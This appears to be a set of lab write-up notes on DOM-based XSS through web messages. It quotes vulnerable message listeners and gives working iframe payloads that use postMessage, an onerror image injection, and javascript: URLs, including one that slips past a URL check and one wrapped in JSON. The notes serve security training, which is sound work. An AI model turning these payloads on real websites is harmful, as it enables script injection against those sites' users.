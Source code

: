 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```

## DOM XSS using web messages and a javascript URL
The page contains a sink in the form of a message event listener:
```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>              
```
Stage an exploit on a page that the user visits.
The iframe loads the target site and calls contextWindow.postMessage to trigger the event listener.
The message includes javascript for any (*) target origin
```
<iframe src="https://0a27003803718cf18050940e007f00d6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and *JSON.parse*
Similar vulnerability except the sink now calls JSON.parse(e.data) and returns if the validation fails.
The exploit payload delivers a JSON object where the url calls malicious javascript. 
```
<iframe src=https://0a55002603bafe7d81a09d2000d50006.web-security-academy.net/ onload='this.contentWindow.postMessage(JSON.stringify({type:"load-channel",url:"javascript:print()"}),"*")'>
```